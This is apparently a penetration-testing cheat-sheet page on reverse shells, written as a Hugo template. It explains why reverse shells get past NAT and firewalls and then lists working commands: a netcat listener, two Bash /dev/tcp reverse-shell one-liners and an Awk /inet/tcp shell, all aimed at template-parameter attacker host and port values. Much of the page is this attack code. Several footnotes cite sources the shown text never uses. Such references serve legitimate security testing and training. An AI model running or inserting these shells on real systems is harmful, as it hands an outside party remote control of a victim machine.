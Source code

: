 ```yaml
---
title: Reverse Shells
weight: 302
---
```

# Reverse Shells

After the exploitation of a remote code execution (RCE) vulnerability, the next step will be to interact with the compromised target.
Reverse shells, as opposed to bind shells, initiate the connection from the remote host to the local host. They are especially handy and, sometimes the only way, to get remote access across a NAT or firewall.

The chosen shell will depend on the binaries installed on the target system, although uploading a binary can be possible.[^pentestmonkey][^swisskyrepo-shells]

## Unencrypted Shells

### Netcat Listener

To get the connection from the remote machine (_`{{< param rhost >}}`_) and interact with it, a listener have to be set on the desired port (_`{{< param lport >}}`_) on the local machine (_`{{< param lhost >}}`_).

```sh
sudo nc -nvlp {{< param lport >}}
```
{{<details "Parameters"></details>}}

{{<hint warning>}}
Use a port that is likely allowed via outbound firewall rules on the target network.

Ports from 1 to 1023 are by default privileged ports. To bind to a privileged port, a process must be running with root permissions.
{{</hint>}}

### Bash

```sh
bash -i >& /dev/tcp/{{< param lhost >}}/{{< param lport >}} 0>&1
```

```sh
0<&196;exec 196<>/dev/tcp/{{< param lhost >}}/{{< param lport>}}; sh <&196 >&196 2>&196
```

### Awk

```sh
awk 'BEGIN {s = "/inet/tcp/0/{{< param lhost >}}/{{< param lport >}}"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.
[^python-pty-module]: “Pty — Pseudo-Terminal Utilities.” 3.8.3 Documentation, https://docs.python.org/3/library/pty.html.
[^stty]: “Stty.” Linux Manual Page, https://man7.org/linux/man-pages/man1/stty.1.html.